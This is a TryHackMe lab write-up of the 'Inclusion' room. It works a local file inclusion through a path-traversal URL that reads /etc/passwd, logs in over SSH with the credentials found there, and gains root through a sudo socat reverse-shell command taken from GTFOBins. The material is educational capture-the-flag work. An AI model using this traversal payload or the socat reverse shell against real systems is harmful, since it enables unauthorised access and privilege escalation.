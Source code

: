```yaml
---
title: TryHackMe Inclusion
date: 2020-12-05
categories: [TryHackMe]
thumbnail: /assets/img/thm/inclusion/lfi.png
excerpt: We use an LFI to gain initial access, then use a socat PrivEsc.
tags: [LFI,socat,SSH]
---
```


# TryHackMe Inclusion
This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability. 

## Nmap

![nmap](nmap.png)

We have only 2 ports open `port 22` and `port 80`

## Website

![website](website.png)

Clicking on one of the articles we can see in the URL `article?name=lfiattack` 
This is an indication of file inclusion.

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). [LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

As we can see, switching `article?name=lfiattack` to be `article?name=../../../../etc/passwd`
![LFI](lfi.png)

It seems we have credentials of `falconfeast:rootpassword`. The only way we can use these credentials is through SSH. So let's try that

## SSH

It seems those credentials work.
![ssh](ssh.png)

Your user flag is right in your current working directory.

## Root

Let's check to see what we can run as sudo with no password
Running `sudo -l`

![sudo](sudo.png)

Looking up `socat` on [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo)

We can run `socat file:`tty`,raw,echo=0 tcp-listen:1234` on our host machine to set up a listener. On the target machine, we'll use what they provided `sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane`.

As you can see, we now have root access.

![root](root.png)

Your root flag is place in `/root`.